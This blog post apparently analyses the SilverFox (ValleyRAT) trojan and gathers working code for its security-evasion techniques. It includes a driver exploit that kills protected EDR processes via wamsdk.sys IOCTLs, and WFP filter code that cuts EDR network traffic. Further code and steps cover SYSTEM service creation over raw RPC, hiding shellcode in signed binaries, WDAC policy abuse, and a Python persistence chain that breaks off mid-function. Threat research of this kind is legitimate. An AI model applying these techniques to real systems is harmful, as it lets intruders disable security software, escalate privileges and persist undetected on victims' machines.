



SilverFox (also known as ValleyRAT or a Winos variant) is one of the most threatening remote control tools targeting government, enterprise, financial, and medical systems in China. Its EDR/AV evasion technologies have evolved to the kernel level.

Some variants of this trojan center their logic around **"Driver Exploitation + Signature Spoofing"**, demonstrating extremely high resistance:

*   **Static Level**: Not only does it use "White-loading" (DLL Hijacking/Side-loading) to hijack legitimate signed programs, but it also modifies non-verified bytes (such as timestamps) of signed drivers to change file hashes. This technique bypasses hash-based blacklists while maintaining the validity of Microsoft digital signatures.
*   **Dynamic Evasion**: The 2025 variants have adopted **BYOVD (Bring Your Own Vulnerable Driver)** tactics on a large scale. By forcibly loading legitimate drivers with known or "unknown" vulnerabilities (such as WatchDog, Zemana, or domestic anti-cheat drivers), they violently terminate EDR processes or remove kernel monitoring hooks in Ring 0.
*   **Stealth Communication**: The core payload often achieves "fileless" execution through LSB image steganography or encrypted memory loading, combined with cloud storage (OSS) traffic tunneling, making it highly stealthy on both the endpoint and network sides.

This article compiles code implementations of common AV/EDR evasion means used by SilverFox. This content is based on my study of multiple analysis reports and collection of open-source community projects. To verify these technologies, I created a series of test samples and published them on the Kafan Security Forum.

In this blog post, I will share relevant code snippets, open-source codebases, and demonstrate how to use Python to integrate them into Demo test samples.

## Reflective DLL Injection (RDI)

Although most of the original code for evasion techniques is written in C/C++, to simplify the integration process and improve Demo development efficiency, I chose **Python** as the main language and used **RDI (Reflective DLL Injection)** technology to achieve static evasion.

### Static Evasion Strategy

One of the best ways to achieve static evasion is to have the Payload or critical Binary decrypt and execute in memory, avoiding touching the disk. Common implementation paths include:
1.  Downloading directly from the network to a memory Buffer and executing.
2.  Reading an encrypted disk Payload, decrypting it in memory, and then executing.

### Host Process Selection

Usually, we need to select a suitable host process. A perfect host process should have the following characteristics:
1.  **Valid Signature**: The most trusted executable file in the system.
2.  **High Frequency Usage**: Frequently appears on user computers without arousing suspicion.
3.  **Behavioral Characteristics**: Routinely participates in a large number of file or network I/O operations.
4.  **Execution Capability**: Preferably an interpreter or capable of executing arbitrary code.

Based on the above criteria, the Python script interpreter `python.exe` is a perfect option. SilverFox also uses similar RDI operations, utilizing whitelisted processes for cover.

### Code Implementation

The Python community has provided a ready-made library: [PythonMemoryModule](https://github.com/naksyn/PythonMemoryModule).

After importing this library, any DLL/EXE can be loaded into the memory of the `python.exe` host process.

> After local testing, EXEs compiled with C/C++ run perfectly, but .NET programs do not work properly.
{: .prompt-warning }

```python
import pythonmemorymodule

# data is the read binary data (e.g., bytes after decrypting the encrypted payload)
pythonmemorymodule.MemoryModule(data=data)
```

## Utilizing WFP to Disconnect AV/EDR

**Windows Filtering Platform (WFP)** is a network traffic filtering architecture introduced in Windows Vista and later versions. It provides unified underlying APIs for security products such as firewalls, intrusion detection systems (IDS), and antivirus software to inspect and modify network packets.

Although many security products implement network monitoring through WFP Callout drivers, malware can also leverage this mechanism by registering malicious WFP filters to hide its own traffic or block communication of security software.

### Traditional Methods vs. WFP

In traditional attack and defense scenarios, manipulating network traffic usually requires kernel-level access permissions (such as using NDIS drivers or TDI filtering). This approach has a high threshold, and attackers must face the following challenges:

*   Writing and obtaining legitimate kernel driver signatures.
*   Bypassing Driver Signature Enforcement.
*   Countering kernel protection mechanisms like PatchGuard (KPP).

In contrast, WFP's user-mode engine — **Base Filtering Engine (BFE)** — allows any process with administrator privileges to add filters through user-mode APIs **without writing or loading kernel drivers**. Attackers only need to call a few functions in `fwpuclnt.dll` to achieve control over the network layer.

### EDRSilencer and SilverFox's Implementation

The open-source project [EDRSilencer](https://github.com/netero1010/EDRSilencer) was born based on this principle. Released in late 2023, this tool aims to set WFP filters against EDR/AV processes, thereby blocking their communication with the cloud and preventing them from reporting threat information. SilverFox variants in 2025 also adopted the exact same method.

> To evade detection, the author of EDRSilencer implemented the `FwpmGetAppIdFromFileName0` function themselves, avoiding direct calls to `CreateFileW`, thus successfully bypassing Minifilter monitoring.
{: .prompt-info }

Below are code snippets based on the core logic of EDRSilencer, showing how to configure WFP filters to block traffic for specific processes:

```cpp
// Set filter display name (for management commands like netsh wfp show filters)
filter.displayData.name = filterName;

// PERSISTENT: Persist the filter, stored in the registry, remains effective after system reboot until explicitly deleted
filter.flags = FWPM_FILTER_FLAG_PERSISTENT;

// ALE_AUTH_CONNECT_V4: Outbound connection authorization layer, triggered on TCP connect() / UDP first packet / ICMP first packet, stateful, evaluated only once per connection
filter.layerKey = FWPM_LAYER_ALE_AUTH_CONNECT_V4;

// BLOCK: Block matching network traffic
filter.action.type = FWP_ACTION_BLOCK;

// Weight = Priority, UINT64_MAX ensures this filter is evaluated before EDR's own PERMIT rules
UINT64 weightValue = 0xFFFFFFFFFFFFFFFF;
filter.weight.type = FWP_UINT64;
filter.weight.uint64 = &weightValue;

// ALE_APP_ID: Match by application path (NT device path format, e.g., \device\harddiskvolume1\...\xxx.exe)
cond.fieldKey = FWPM_CONDITION_ALE_APP_ID;
// Exact match
cond.matchType = FWP_MATCH_EQUAL;
// appId is a FWP_BYTE_BLOB structure, obtained by FwpmGetAppIdFromFileName0() or custom implementation
cond.conditionValue.type = FWP_BYTE_BLOB_TYPE;
cond.conditionValue.byteBlob = appId;

// Associate condition to filter, multiple conditions are AND relationship
filter.filterCondition = &cond;
filter.numFilterConditions = 1;

// Provider: Logical grouping/owner identification of filters, facilitating management and batch deletion
if (GetProviderGUIDByDescription(providerDescription, &providerGuid)) {
    filter.providerKey = &providerGuid;  // Reuse existing Provider
} else {
    provider.displayData.name = providerName;
    provider.displayData.description = providerDescription;
    provider.flags = FWPM_PROVIDER_FLAG_PERSISTENT;  // Provider is also persistent
    result = FwpmProviderAdd0(hEngine, &provider, NULL);
    if (result != ERROR_SUCCESS) {
        printf("[-] FwpmProviderAdd0 failed with error code: 0x%x.\n", result);
    } else {
        if (GetProviderGUIDByDescription(providerDescription, &providerGuid)) {
            filter.providerKey = &providerGuid;
        }
    }
}

// Add IPv4 outbound blocking filter, filterId used for subsequent FwpmFilterDeleteById0 deletion
result = FwpmFilterAdd0(hEngine, &filter, NULL, &filterId);
if (result == ERROR_SUCCESS) {
    printf("Added WFP filter for \"%s\" (Filter id: %d, IPv4 layer).\n", fullPath, filterId);
} else {
    printf("[-] Failed to add filter in IPv4 layer with error code: 0x%x.\n", result);
}

// Block IPv6 simultaneously to prevent EDR from communicating via IPv6
filter.layerKey = FWPM_LAYER_ALE_AUTH_CONNECT_V6;
result = FwpmFilterAdd0(hEngine, &filter, NULL, &filterId);
if (result == ERROR_SUCCESS) {
    printf("Added WFP filter for \"%s\" (Filter id: %d, IPv6 layer).\n", fullPath, filterId);
} else {
    printf("[-] Failed to add filter in IPv6 layer with error code: 0x%x.\n", result);
}
```

## BYOVD

**BYOVD (Bring Your Own Vulnerable Driver)** is a technique that utilizes legitimate signed drivers with vulnerabilities to achieve kernel-level attacks. Since Windows drivers run in Ring 0 (kernel mode) and possess the highest system privileges, attackers do not need to write their own drivers (which would typically be blocked by Driver Signature Enforcement). Instead, they directly carry a legitimate driver signed by Microsoft but containing known vulnerabilities. After loading this driver, attackers can exploit its vulnerabilities to achieve the following goals:

*   Arbitrary kernel memory read/write
*   Disable or bypass EDR/AV Kernel Callbacks
*   Escalate privileges to SYSTEM
*   Hide malicious processes or files

To determine if a `.sys` driver has exploitable space, one can usually check if its IOCTL handler calls the following kernel functions without strict permission validation:

*   `ZwOpenProcess`: Get process handle
*   `ZwTerminateProcess`: Terminate process
*   `ZwWriteVirtualMemory`: Corrupt process memory
*   `ZwAllocateVirtualMemory`: Allocate memory (usually used with write)
*   `MmCopyVirtualMemory`: Copy memory (can be used to corrupt process memory)

SilverFox has been using vulnerable drivers to counter AV/EDR since its inception. It is certain that they have an independent research team and continuously discover potential BYOVD resources. Whether obtained from open-source projects or other channels, the number of vulnerable drivers they utilize is extremely high, and a significant portion are unknown or not yet included in the [LOLDrivers](https://www.loldrivers.io/) project.

### wamsdk.sys

According to a [report](https://research.checkpoint.com/2025/silver-fox-apt-vulnerable-drivers/) released by Check Point in August 2025, SilverFox exploited the `wamsdk.sys` (or `amsdk.sys`) driver in **WatchDog Antimalware** software, calling `ZwTerminateProcess` to forcibly terminate EDR/AV processes. Two months later, security researcher j3h4ck open-sourced the POC for this driver on GitHub: [WatchDogKiller](https://github.com/j3h4ck/WatchDogKiller). As of October, this vulnerable driver had not been included in LOLDrivers or the Microsoft Vulnerable Driver Blocklist.

`wamsdk.sys` exposes two IOCTLs with severe security flaws:

| IOCTL | Code | Function |
| :--- | :--- | :--- |
| `IOCTL_REGISTER_PROCESS` | `0x80002010` | Register process to authorization whitelist |
| `IOCTL_TERMINATE_PROCESS` | `0x80002048` | Terminate arbitrary process |

**Vulnerability Analysis:**

[Source](https://medium.com/@jehadbudagga/researching-an-apt-attack-and-weaponizing-it-56daabee11c9) 

1.  `IOCTL_REGISTER_PROCESS` has a serious logic flaw; any process can register its PID to the whitelist, **with absolutely no permission validation**.

    

2.  Even though `IOCTL_TERMINATE_PROCESS` has an internal `ZmnAuthIsRegisteredProcessId` authorization check, attackers only need to complete the first registration step to easily bypass it.

    

3.  The driver ultimately calls `ZwTerminateProcess` with kernel privileges, which bypasses all user-mode protection mechanisms (including PPL protected processes).

    

> At this point, the driver can successfully run on the latest Windows 11 machines with HVCI (Hypervisor-Protected Code Integrity) enabled.
{: .prompt-tip }

Below is the key code snippet of the POC:

```cpp
// ========== Step 1: Register self to whitelist (bypass authorization check) ==========
DWORD pid = GetCurrentProcessId();
DeviceIoControl(
    hDevice,
    0x80002010,          // IOCTL_REGISTER_PROCESS
    &pid, sizeof(pid),   // Just pass in own PID, no validation!
    NULL, 0, &bytesReturned, NULL
);

// ========== Step 2: Kill arbitrary target process ==========
typedef struct {
    DWORD ProcessId;     // Target PID
    DWORD WaitForExit;   // Whether to wait for exit
} TERMINATE_REQUEST;

TERMINATE_REQUEST req = { targetPid, 0 };
DeviceIoControl(
    hDevice,
    0x80002048,          // IOCTL_TERMINATE_PROCESS  
    &req, sizeof(req),   // Kernel-mode ZwTerminateProcess, ignores PPL protection
    NULL, 0, &bytesReturned, NULL
);
```

## SigFlip

**SigFlip** exploits a design feature of the Windows Authenticode signature mechanism: it allows embedding arbitrary data into signed PE files without breaking the validity of the digital signature.

This feature is related to the `WIN_CERTIFICATE` structure:

```c
typedef struct _WIN_CERTIFICATE {
    DWORD dwLength;           // Certificate table size
    WORD  wRevision;          // Version
    WORD  wCertificateType;   // Certificate type
    BYTE  bCertificate[];     // Actual certificate data (PKCS#7 SignedData)
} WIN_CERTIFICATE;
```

The core principle of SigFlip is to append data (Padding) after the `bCertificate` field. Since this part of the data does not participate in hash calculation, it does not destroy the integrity of the signature. The specific process is as follows:

1.  Load the PE file and verify the existing signature.
2.  Locate `IMAGE_DIRECTORY_ENTRY_SECURITY` (Security Directory in Optional Header).
3.  Get the RVA (Relative Virtual Address) and Size of the certificate table.
4.  Append custom data (such as Shellcode or encrypted configuration) to the end of the certificate table.
5.  Update `WIN_CERTIFICATE.dwLength` and the Size of the directory entry.
6.  Recalculate and update the Checksum of the PE file.

SilverFox uses this tool to bypass hash-based detection mechanisms (e.g., security vendors blocking vulnerable drivers by file hash to defend against BYOVD). By creating different variants of the same driver (different Hash but signature remains valid), SilverFox maximizes the lifecycle of BYOVD vulnerable drivers. In addition, this technique can also be used in other "Living off the Land" scenarios.

The open-source tool [gSigFlip](https://github.com/akkuman/gSigFlip) provides a ready-made CLI program that can be used to quickly generate modified signed PE files:

```powershell
Usage of gSigFlip.exe:
  -out string
        output pe file path (default "out.exe")
  -pe string
        pe file path which you want ot hide data
  -sf string
        the path of the file where shellcode is stored
  -tag string
        the tag you want to use, support "\x1a \xdf" "\x1a\xdf" "1a, df" "1a df" (default "fe ed fa ce fe ed fa ce")
  -xor string
        the xor key you want to use
```

## CreateSvcRpc

**CreateSvcRpc** is a technique that executes commands with SYSTEM privileges by directly manipulating the Windows Service Control Manager (SCM) via raw RPC protocol. The original POC for this technique was published by security researcher **x86matthew** in 2022. Subsequently, GitHub user antonioCoco provided an implementation based on x86matthew's code in his project [SspiUacBypass](https://github.com/antonioCoco/SspiUacBypass/blob/main/CreateSvcRpc.cpp).

### Core Principle

Its core logic lies in **communicating directly via RPC**, thereby bypassing high-level Win32 APIs.

> Typically, EDR/AV products hook standard APIs like `OpenSCManager()` or `CreateService()` to monitor service creation behavior. CreateSvcRpc does not call these APIs but communicates directly with the SCM's RPC interface via named pipes, manually constructing DCE/RPC protocol packets. This method effectively evades detection mechanisms based on API Hooking.
{: .prompt-info }

### RPC Protocol Implementation Details

The implementation mainly involves the following components:

| Component | Description |
| :--- | :--- |
| **Bind Request** | Bind to `367abb81-9844-35f1-ad32-98f038001003` (SVCCTL v2.0) |
| **NDR Transfer Syntax** | `8a885d04-1ceb-11c9-9fe8-08002b104860` |
| **Request/Response Handling** | Manually serialize parameters, must strictly adhere to 4-byte alignment rules |

#### DCE/RPC Bind Request Packet Layout

The structure of the entire RPC Bind request packet is as follows:

```text
+---------------------------+
|    RpcBaseHeader (16B)    |  ← Common header for all RPC packets
+---------------------------+
|  RpcBindRequestHeader     |  ← Bind specific parameters
+---------------------------+
|    Context Entry          |  ← Interface info to bind
+---------------------------+
```

**RpcBaseHeader (16 Bytes)**

| Offset | Size | Field | Value | Description |
| :--- | :--- | :--- | :--- | :--- |
| 0x00 | 2 | `wVersion` | `0x0005` | DCE/RPC v5 |
| 0x02 | 1 | `bPacketType` | `0x0B` (11) | Bind Request |
| 0x03 | 1 | `bPacketFlags` | `0x03` | `PFC_FIRST_FRAG \| PFC_LAST_FRAG` |
| 0x04 | 4 | `dwDataRepresentation` | `0x00000010` | Little-endian, ASCII, IEEE |
| 0x08 | 2 | `wFragLength` | `72` | Total packet length |
| 0x0A | 2 | `wAuthLength` | `0` | No auth data |
| 0x0C | 4 | `dwCallIndex` | `1` | Call index |

**RpcBindRequestHeader (12 Bytes)**

| Offset | Size | Field | Value | Description |
| :--- | :--- | :--- | :--- | :--- |
| 0x10 | 2 | `wMaxSendFrag` | `4096` | Max send fragment |
| 0x12 | 2 | `wMaxRecvFrag` | `4096` | Max recv fragment |
| 0x14 | 4 | `dwAssocGroup` | `0` | Association group (0 for new) |
| 0x18 | 1 | `bContextCount` | `1` | Context count |
| 0x19 | 3 | `bAlign[3]` | `0,0,0` | Alignment padding |

**Context Entry (44 Bytes)**

| Offset | Size | Field | Value | Description |
| :--- | :--- | :--- | :--- | :--- |
| 0x1C | 2 | `wContextID` | `0` | Context ID |
| 0x1E | 2 | `wTransItemCount` | `1` | Transfer syntax count |
| 0x20 | 16 | `bInterfaceUUID` | `367abb81...` | SVCCTL Interface (UUID: `367abb81-9844-35f1-ad32-98f038001003`) |
| 0x30 | 4 | `dwInterfaceVersion` | `0x00000002` | Version 2.0 |
| 0x34 | 16 | `bTransferSyntaxUUID` | `8a885d04...` | NDR Syntax (UUID: `8a885d04-1ceb-11c9-9fe8-08002b104860`) |
| 0x44 | 4 | `dwTransferSyntaxVersion` | `0x00000002` | NDR v2 |

### Code Implementation Snippet

Below is the key code logic for constructing RPC requests and creating services:

```cpp
int InvokeCreateSvcRpcMain(char* pExecCmd)
{
    RpcConnectionStruct RpcConnection;
    BYTE bServiceManagerObject[20];  // SCM Handle (RPC Context Handle, fixed 20 bytes)
    BYTE bServiceObject[20];         // Service Handle
    char szServiceName[256];
    char szServiceCommandLine[256];

    // Generate random service name to avoid conflict
    _snprintf(szServiceName, sizeof(szServiceName) - 1, 
              "CreateSvcRpc_%u", GetTickCount());

    // Key: Wrap payload with "cmd /c start"
    // This way the service returns immediately after start, avoiding timeout errors
    _snprintf(szServiceCommandLine, sizeof(szServiceCommandLine) - 1, 
              "cmd /c start %s", pExecCmd);

    //-------------------------------------------------------------------------
    // Step 1: Connect to SVCCTL RPC Interface
    // ntsvcs = SCM's named pipe
    // 367abb81-9844-35f1-ad32-98f038001003 = SVCCTL Interface UUID (MS-SCMR spec)
    //-------------------------------------------------------------------------
    if (RpcConnect("ntsvcs", "367abb81-9844-35f1-ad32-98f038001003", 2, &RpcConnection) != 0)
        return 1;

    //-------------------------------------------------------------------------
    // Step 2: ROpenSCManagerW - Get SCM Handle
    //-------------------------------------------------------------------------
    RpcInitialiseRequestData(&RpcConnection);
    RpcAppendRequestData_Dword(&RpcConnection, 0);                    // lpMachineName = NULL
    RpcAppendRequestData_Dword(&RpcConnection, 0);                    // lpDatabaseName = NULL  
    RpcAppendRequestData_Dword(&RpcConnection, SC_MANAGER_ALL_ACCESS); // dwDesiredAccess
    RpcSendRequest(&RpcConnection, RPC_CMD_ID_OPEN_SC_MANAGER);       
    
    // Response first 20 bytes is SCM handle, last 4 bytes is return value
    memcpy(bServiceManagerObject, &RpcConnection.bProcedureOutputData[0], 20);

    //-------------------------------------------------------------------------
    // Step 3: RCreateServiceW - Create Service
    // Here we manually serialize all parameters of CreateService
    //-------------------------------------------------------------------------
    RpcInitialiseRequestData(&RpcConnection);
    RpcAppendRequestData_Binary(&RpcConnection, bServiceManagerObject, 20);  // hSCManager
    RpcAppendRequestData_Dword(&RpcConnection, dwServiceNameLength);         // Service Name Length
    RpcAppendRequestData_Dword(&RpcConnection, 0);                           // (Alignment Padding)
    RpcAppendRequestData_Dword(&RpcConnection, dwServiceNameLength);
    RpcAppendRequestData_Binary(&RpcConnection, (BYTE*)szServiceName, dwServiceNameLength);
    RpcAppendRequestData_Dword(&RpcConnection, 0);                           // lpDisplayName
    RpcAppendRequestData_Dword(&RpcConnection, SERVICE_ALL_ACCESS);          // dwDesiredAccess
    RpcAppendRequestData_Dword(&RpcConnection, SERVICE_WIN32_OWN_PROCESS);   // dwServiceType
    RpcAppendRequestData_Dword(&RpcConnection, SERVICE_DEMAND_START);        // dwStartType (Manual Start)
    RpcAppendRequestData_Dword(&RpcConnection, SERVICE_ERROR_IGNORE);        // dwErrorControl
    // ... lpBinaryPathName (Our payload command line) ...
    RpcAppendRequestData_Binary(&RpcConnection, (BYTE*)szServiceCommandLine, dwServiceCommandLineLength);
    // ... Other parameters (LoadOrderGroup, Dependencies etc. set to NULL) ...
    RpcSendRequest(&RpcConnection, RPC_CMD_ID_CREATE_SERVICE);

    // Response: [0-3] TagId, [4-23] Service Handle, [24-27] Return Value
    memcpy(bServiceObject, &RpcConnection.bProcedureOutputData[4], 20);

    //-------------------------------------------------------------------------
    // Step 4: RStartServiceW - Start Service
    // Service will run as SYSTEM, executing our payload
    //-------------------------------------------------------------------------
    RpcInitialiseRequestData(&RpcConnection);
    RpcAppendRequestData_Binary(&RpcConnection, bServiceObject, 20);  // hService
    RpcAppendRequestData_Dword(&RpcConnection, 0);                    // argc = 0
    RpcAppendRequestData_Dword(&RpcConnection, 0);                    // argv = NULL
    RpcSendRequest(&RpcConnection, RPC_CMD_ID_START_SERVICE);         
    
    // Note: Returning ERROR_SERVICE_REQUEST_TIMEOUT (1053) is normal
    // Because our "Service" is not a real service program, it won't respond to SCM control requests

    //-------------------------------------------------------------------------
    // Step 5: RDeleteService - Delete Service, clean up traces
    //-------------------------------------------------------------------------
    RpcInitialiseRequestData(&RpcConnection);
    RpcAppendRequestData_Binary(&RpcConnection, bServiceObject, 20);
    RpcSendRequest(&RpcConnection, RPC_CMD_ID_DELETE_SERVICE); 

    RpcDisconnect(&RpcConnection);
    return 0;
}
```

According to [Huorong Security's report](https://www.huorong.cn/document/tech/vir_report/1846), SilverFox Trojan uses this technique to load BYOVD drivers, thereby evading conventional behavioral monitoring.

## WDAC Policy Abuse

**WDAC (Windows Defender Application Control)** is an application control mechanism enabled by default in Windows 10 and later versions. It aims to control which code (including user-mode applications and kernel-mode drivers) is allowed to execute on the system.

In late 2024, security researchers **Jonathan Beierle** and **Logan Goins** published an article titled [Weaponizing WDAC - Killing the Dreams of EDR](https://beierle.win/2024-12-20-Weaponizing-WDAC-Killing-the-Dreams-of-EDR/), detailing how to abuse the WDAC mechanism to disable the operation of antivirus software and EDR.

> The core key point of this attack method is: **WDAC policies have a higher loading priority than EDR drivers during the system boot phase**.
{: .prompt-danger }

### Attack Process

1.  **Create Malicious WDAC Policy (`SiPolicy.p7b`)**
    Attackers can use the official Microsoft tool [App Control Policy Wizard](https://webapp-wdac-wizard.azurewebsites.net) to create custom policies:
    *   **Block**: List EDR-related EXEs, DLLs, and drivers.
    *   **Allow**: Permit specific paths (e.g., `C:\Users\Public\*`) for attacker tools to run.

2.  **Deploy Policy File**
    Place the generated `SiPolicy.p7b` file in the `C:\Windows\System32\CodeIntegrity\` directory (this step requires administrator privileges).

3.  **Reboot Target Machine**
    Make the policy effective.

4.  **Execution Order at System Boot**
    *   WDAC policy loads and takes effect first.
    *   EDR drivers or services attempt to start but are blocked from loading due to policy restrictions.
    *   Malicious tools placed by attackers in whitelisted paths can run normally and are not monitored by EDR.

According to Tencent Security's [analysis report](https://www.freebuf.com/articles/vuls/438775.html), SilverFox adopted the exact same countermeasure in the wild, abusing WDAC policies to disable security protection software on target machines.

## File Association + DOS Device Redirect + Delayed Move for Persistence

According to Tencent Security's [analysis report](https://www.freebuf.com/articles/vuls/438775.html), SilverFox uses a rather stealthy persistence technique. Its core idea is to combine several legitimate functions during the Windows system boot process (File Associations, DOS Devices Redirect, PendingFileRenameOperations) to cleverly bypass conventional monitoring and achieve auto-start.

To verify this mechanism, I wrote a quick Proof of Concept (POC) using Python.

### Flowchart



### Specific Implementation Steps

The entire attack chain is designed very ingeniously, mainly divided into the following stages:

1.  The attacker first generates an empty file on the target system with a fixed filename `reboot` but a randomly generated four-letter extension (e.g., `reboot.qmtk`). This random extension is the key identifier of the entire attack chain, and it is unlikely that an existing association for this extension exists in the system.

2.  Create a key named after this random extension under the registry `HKEY_CLASSES_ROOT`, pointing its default value to a custom program identifier `sf-demo`. Subsequently, create a complete `shell\open\command` structure for `sf-demo`, with the command content pointing to `python.exe` placed by the attacker in the same directory as the script, and passing the file path as an argument.
    > **Purpose**: Ensure the system knows to use the specified Python interpreter when encountering a file with this random extension.
    {: .prompt-info }

3.  Map an unused drive letter (e.g., `X:`) to the system's Common Start Menu `Programs` directory by writing a new value to the `DOS Devices` key under `Session Manager`.
    
    > This mapping does not take effect immediately but is processed by the Session Manager (SMSS) at the next system boot.
    {: .prompt-info }

4.  The attacker writes a pair of paths to the `PendingFileRenameOperations` registry value. The source path is the file with the random extension created earlier, and the target path uses the virtual drive letter just mapped plus the `Startup` subdirectory (e.g., `X:\Startup\reboot.qmtk`).
    
    > This registry value is specifically used to record file operations that need to be performed upon reboot (commonly used for Windows updates or driver installations).
    {: .prompt-info }

### Execution Logic After Reboot

When the system reboots, the Windows Session Manager (SMSS.exe) starts working in the early boot phase:

1.  First, it processes the mapping relationships in `DOS Devices`, making the virtual drive letter `X:` effective and pointing to the Common Startup directory.
2.  Immediately after, it processes the operations recorded in `PendingFileRenameOperations`, moving the malicious file to the target location. Since the virtual drive letter is already effective at this time, the target path can be correctly resolved, and the file eventually lands in the `Startup` subdirectory of the Common Startup directory.
3.  After the user logs in, the Explorer process enumerates files in the startup directory and attempts to open them according to the normal process. When it encounters `reboot.qmtk`, it queries the registry to find the corresponding file association and finally starts the Python interpreter to execute the malicious code.

### Stealthiness

Compared to traditional registry Run keys or scheduled tasks, this multi-stage persistence technique has significant stealthiness:

*   Security software usually focuses on monitoring sensitive locations like `Run` keys and direct writes to startup folders. This method does not directly touch these locations but achieves the goal indirectly through "delayed move". Moreover, the file move occurs early in the system boot, when user-mode components of most security software have not yet loaded.
*   `PendingFileRenameOperations` and `DOS Devices` mappings are both legitimate functions of the Windows system. These operations look like normal system behaviors (such as software installation or updates) in logs and are easily overlooked by security analysts.
*   Using random extensions avoids blacklist detection based on file types, and at the same time does not pollute common file associations (like `.exe`, `.bat`), reducing the probability of accidental discovery by users.
*   Using the Common Startup directory means the malicious code will execute when **any** user logs in, making it very suitable for lateral movement or establishing a solid foothold.
*   Investigators need to understand the interaction of three independent systems: file associations, DOS device mapping, and delayed file operations, to reconstruct the complete attack chain. Viewing any single registry modification in isolation does not present obvious malicious characteristics.

### Code Implementation

Below is the POC code reproducing this technique using Python:

```python
import os
import random
import string
import winreg
from pathlib import Path
from ctypes import create_unicode_buffer, windll

def gen_empty_random_ext(dir_path: str | os.PathLike | None = None) -> Path:
    """Generate empty file with random extension"""
    letters = ''.join(random.choice(string.ascii_lowercase) for _ in range(4))
    base = "reboot"  # Filename can be customized
    dirp = Path(dir_path) if dir_path else Path.cwd()
    dirp.mkdir(parents=True, exist_ok=True)
    p = dirp / f"{base}.{letters}"
    p.touch(exist_ok=True)
    return p

def reg_map_extension_to_sfdemo(ext: str) -> None:
    """Register file extension association"""
    if ext.startswith('.'):
        ext = ext[1:]
    if not (len(ext) == 4 and ext.isalpha()):
        raise ValueError("ext must be a 4-letter alphabetic extension")

    key_path = fr".{ext}"
    with winreg.CreateKeyEx(winreg.HKEY_CLASSES_ROOT, key_path, 0, winreg.KEY_SET_VALUE) as k:
        winreg.SetValueEx(k, None, 0, winreg.REG_SZ, "sf-demo")  # (Default) value

def reg_set_sfdemo_open_to_local_python() -> None:
    """Set open command for associated program"""
    script_dir = Path(__file__).resolve().parent
    python_exe = script_dir / "python.exe"
    if not python_exe.exists():
        raise FileNotFoundError(f"'python.exe' not found next to this script: {python_exe}")

    cmd = f'"{python_exe}" "%1"'
    key_path = r"sf-demo\shell\open\command"
    with winreg.CreateKeyEx(winreg.HKEY_CLASSES_ROOT, key_path, 0, winreg.KEY_SET_VALUE) as k:
        winreg.SetValueEx(k, None, 0, winreg.REG_SZ, cmd)

def map_drive_to_common_programs(letter: str) -> None:
    """Map DOS Device drive letter to Common Programs directory"""
    if not letter:
        raise ValueError("letter is required")
    drive = (letter[0].upper() + ":")
    if not ('A' <= drive[0] <= 'Z'):
        raise ValueError("letter must be A–Z")

    # Get Common Programs path (e.g., C:\ProgramData\Microsoft\Windows\Start Menu\Programs)
    CSIDL_COMMON_PROGRAMS = 0x0017
    buf = create_unicode_buffer(260)
    hr = windll.shell32.SHGetFolderPathW(0, CSIDL_COMMON_PROGRAMS, 0, 0, buf)
    if hr != 0:
